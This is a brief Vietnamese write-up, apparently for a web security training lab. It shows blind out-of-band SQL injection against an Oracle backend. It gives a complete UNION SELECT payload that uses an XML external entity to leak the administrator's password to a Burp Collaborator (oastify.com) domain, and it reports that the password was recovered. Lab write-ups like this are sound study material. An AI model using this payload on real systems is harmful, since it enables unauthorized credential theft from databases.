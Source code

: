 Trước hết tạo 1 Burp Colaborator 

![Alt text](../image/lab16/03.png)

tạo payload: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.o6vf7kbn23qsvdgsi6ewhuzjya41stgi.oastify.com/"> %remote;]>'),'/l') FROM dual--`

![Alt text](../image/lab17/03.png)

kích hoạt thành công và thấy password rồi

![Alt text](../image/lab17/04.png)
